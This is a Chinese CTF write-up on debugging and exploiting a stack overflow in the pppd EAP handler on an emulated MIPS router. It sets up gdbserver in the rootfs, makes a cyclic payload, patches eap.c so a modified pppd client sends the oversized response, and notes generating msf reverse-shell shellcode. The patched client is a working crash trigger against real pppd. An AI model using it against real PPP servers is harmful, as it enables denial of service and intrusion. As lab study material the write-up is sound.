



操作步骤：

（1）用`cpio`解包`rootfs.img` 。

在chall目录下创建rootfs文件夹：`mkdir rootfs`



```
$ cd rootfs
$ cpio -idvm < ../rootfs.img
```

（2）编辑`etc/inittab`

找到对应相同的注释，把下面的覆盖过去即可。

```
# Put a getty on the serial port
#ttyS0::respawn:/sbin/getty -L  ttyS0 0 vt100 # GENERIC_SERIAL
#ttyS0::sysinit:/pppd auth local lock defaultroute nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
# Bring up network device
::sysinit:/sbin/ifup -a
# Launch gdbserver
ttyS0::sysinit:/gdbserver :1234 /pppd /dev/ttyS1 auth local lock defaultroute nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100

# Stuff to do for the 3-finger salute
```

（3）修改`start.sh`文件

将最后面`-net null...`选项修改为`-net user,hostfwd=tcp::1234-:1234 -net nic -serial stdio -serial pty`

（4）将gdbserver放到环境的根目录`rootfs/`下

（5）重新打包`rootfs.img`

```
$ cd rootfs
$ find . | cpio -H newc -o > ../rootfs.img
```

（6）运行

`./start.sh`



打开一个新的窗口，使用`gdb`启动并连接远程`pppd`

```
winter@ubuntu:~/hws_zongjie/pppd/attachment/docker/chall$ gdb-multiarch -ex 'set architecture mips'   \
               -ex 'target remote :1234'     \
               -ex 'file rootfs/pppd'        \
               -ex 'break *0x42F9A8'         \
               -ex 'continue'
```

再打开一个新的窗口

编写一个1024字节长的循环字符串`/tmp/sc`作为payload：

```
$ python -c 'from pwn import*; open("/tmp/sc", "wb").write(cyclic(1024))'
$ cat /tmp/sc
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaak
```

接着

（1）下载ppp的源码

```
git clone https://github.com/paulusmack/ppp.git
cd ppp
cd pppd
```

（2）修改`eap.c`，搜索`eap_chap_response`，找到

```
eap_chap_response(esp, id, hash, esp->es_client.ea_name,
		    esp->es_client.ea_namelen);
```

修改为

```
		char payload[1024] = {0};
		FILE *fp = fopen("/tmp/sc", "r");
		fread(payload, 1, 1024, fp);
		fclose(fp);
		eap_chap_response(esp, id, hash, payload, 1024);
```

（3）编译

```
cd ..
pppd$ make 
$ cd pppd
$ cp pppd pppd-payload
```

（4）在本地机器运行patched `pppd`

```
sudo ./pppd-payload noauth local defaultroute debug nodetach /dev/pts/1 user admin password 1234568
```

不久，远程`pppd`崩溃并出现分段错误。




获取flag：

方法一：

执行`./exp.sh`，wireshark单独捕捉流量，然后直接搜flag

方法二：

msf生成 shellcode，然后用gen_payload.py脚本去生成payload就行了

不过由于这是本地模拟，方法一可能抓不到，方法二反弹shellcode好像也有点问题，但是会回连端口。